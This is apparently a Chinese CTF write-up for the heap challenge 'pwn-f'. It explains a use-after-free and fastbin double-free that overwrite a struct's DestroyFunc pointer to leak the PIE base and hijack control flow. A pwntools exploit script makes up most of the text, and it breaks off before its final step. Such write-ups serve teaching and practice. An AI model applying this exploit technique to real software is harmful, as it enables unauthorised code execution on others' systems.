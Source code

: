 这里存在一个漏洞，程序检查的是字符串的结构体指针是否为0，但事实上是不可能为0的。同时利用`fastbin`不会检查是否已释放的特点，我们可以构造`double-free`那么我们就可以利用这一点，如果在结构体调用的`DestroyFunc`覆盖为其他函数，我们就可以造成任意函数执行。如果我们将堆上的函数覆盖位`puts`时，程序将会执行`puts(contents)`而不是`free(content)`，通过适当`content`，我们可以泄露程序基址。
在结构体的`DestroyFunc`部分，即使开了`PIE`，程序的最后三位也是不变的，我们只需要覆盖最后3位或2位即可。

所以总结，此题的漏洞点在`UAF`&`double-free`。
ecp:

```
#! /usr/bin/python
from pwn import *

context.log_level = 'debug'
target = process('pwn-f')

def create(size, string):
    target.recvuntil('quit')
    target.sendline('create ')
    target.recvuntil('size:')
    target.sendline(str(size))
    target.recvuntil('str:')
    target.send(string)


def delete(id):
    target.recvuntil('quit')
    target.sendline('delete ')
    target.recvuntil('id:')
    target.sendline(str(id))
    target.recvuntil('sure?:')
    target.sendline('yes')

create(4, 'aaa\n')
create(4, 'aaa\n')
delete(0)
delete(1)
delete(0)
create(4, '\x00')
create(0x20, 'a' * 0x16 + 'lo' + '\x2d\x00')
delete(0)

target.recvuntil('lo')
addr = target.recvline()
addr = addr[:-1]
addr = u64(addr + '\x00' * (8 - len(addr))) - 0xd2d

delete(1)

create(4, '\x00')

target.recvuntil('quit')
target.sendline('create ')
target.recvuntil('size:')
target.sendline(str(0x20))
target.recvuntil('str:')
target.send('a' * 0x18 + p64(0x00000000000011DC + addr))

print hex(addr)

target.recvuntil('quit')
target.sendline('delete ')
target.recvuntil('id:')
target.sendline('1')
target.recvuntil('sure?:')

```